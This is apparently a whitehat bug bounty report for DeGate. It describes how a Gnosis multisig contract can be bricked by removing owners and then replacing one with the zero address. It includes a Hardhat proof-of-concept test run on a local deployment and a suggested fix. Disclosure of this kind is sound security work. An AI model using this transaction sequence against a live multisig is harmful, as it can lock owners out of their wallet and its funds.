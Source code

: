 # Multisig Contract onChain can be bricked

Submitted 18 days ago by @copperscrewer (Whitehat) for BOOSTED: DeGate Bug Bounty

Report ID: #26520

Report type: Smart Contract

Has PoC? Yes

Target: https://etherscan.io/address/0x2028834B2c0A36A918c10937EeA71BE4f932da52#code

# Impacts
- Contract fails to deliver promised returns, but doesn't lose value

# Details

Description

Bug Description

The Multisig contract, on a series of actions can be bricked. As it cannot execute anymore actions and fails to satisfy an Invariant ( length of owners is equal or greater than required signatures)

# Impact
Multisig cannot execute any transaction, cannot add, remove Owners as the contract becomes unusable

# Risk Breakdown
Difficulty to Exploit: Easy Weakness: CVSS2 Score:6.9

# Recommendation
Add a notNull modifier to replaceOwner

# Proof of concept
steps to reproduce As we are testing the Gnosis Multisig, that works independently to the L2 contracts, we can test just this contract while replicating the Owners and required state.

Create an empty folder.

npx hardhat init

To create a project with directories like contracts, test

copy paste contract code from https://etherscan.io/address/0x2028834B2c0A36A918c10937EeA71BE4f932da52?utm_source=immunefi#code

to gnosis.sol in contracts folder

change compiler version or directly paste this in module exports in hardhat config.js This is done since the Gnosis multisig contract uses an old version of solidity solidity: { compilers: [ { version: "0.4.22", }, { version: "0.8.19", settings: {}, }, ], },

paste following test script in test folder and run npx hardhat test test/gnosis.js\
```
const {ethers} = require("hardhat")
const {expect, assert} = require("chai")

var gnosis

let owners, deployer

describe("ReplaceOwner bug", function()
{
    before(async function(){

        owners = (await ethers.getSigners()).slice(0,6)
        deployer = owners[0]
        
    })

    context("Setup Contract (4/6 multisig) ", () =>    {

        it("Should deploy with 6 owners, 4 required ", async function(){

            let gnosisF = await ethers.getContractFactory("MultiSigWallet", deployer)
            gnosis = await gnosisF.deploy(
                owners,
                4
            );

            expect(await gnosis.required()).to.eq(4);
            expect( (await gnosis.getOwners() ).length).to.eq(6);

        })

    })

    context("Bug proof of concept", () => {
        
        it("Should remove two owners", async function(){

            let ABI = [
                "function transfer(address to, uint amount)",
                "function removeOwner(address owner)"
            ];
    
            let iface = new ethers.Interface(ABI);
            data = iface.encodeFunctionData("removeOwner", [ owners[owners.length - 1].address, ] )

            //one owner proposes an action through submitTransaction and the others
            //adhere through confirmTransaction

            // remove one owner [CODE START]
            await gnosis.submitTransaction(
                await gnosis.getAddress(), //destination
                0, //value
                data //data
                )
            
            for( i=1; i<=3; i++)
            {
                
                signer = owners[i];
                await gnosis.connect(signer).confirmTransaction(
                    0 //transaction id
                );
                
            }
            
            
            expect((await gnosis.getOwners()).length).to.eq(5)
            // remove one owner [CODE END]

            // remove another owner [CODE START]
            data = iface.encodeFunctionData("removeOwner", [ owners[owners.length - 2].address, ] )
            await gnosis.submitTransaction(
                await gnosis.getAddress(), //destination
                0, //value
                data //data
                )
            
            for( i=1; i<=3; i++)
            {
                
                signer = owners[i];
                await gnosis.connect(signer).confirmTransaction(
                    1 //transaction id
                );
                
            }
            
            
            expect((await gnosis.getOwners()).length).to.eq(4)
            // remove another owner [CODE END]
            
            
        })

        it("Should replace an Owner with zero address", async function(){
            let ABI = [
                "function transfer(address to, uint amount)",
                "function replaceOwner(address owner, address newOwner)"
            ];
    
            let iface = new ethers.Interface(ABI);
            
            data = iface.encodeFunctionData("replaceOwner", [ owners[2].address, '0x0000000000000000000000000000000000000000'] )
            await gnosis.submitTransaction(
                await gnosis.getAddress(), //destination
                0, //value
                data //data
                )
            
            for( i=1; i<=3; i++)
            {                
                signer = owners[i];
                await gnosis.connect(signer).confirmTransaction(
                    2 //transaction id
                );
                
            }
            

            expect(await gnosis.required()).to.eq(4);
            expect((await gnosis.getOwners()).length).to.eq(4);          

            console.log("Owners are ", await gnosis.getOwners() );
            console.log("Required amount of signatures are ", await gnosis.required() );
        })

    })

})
```
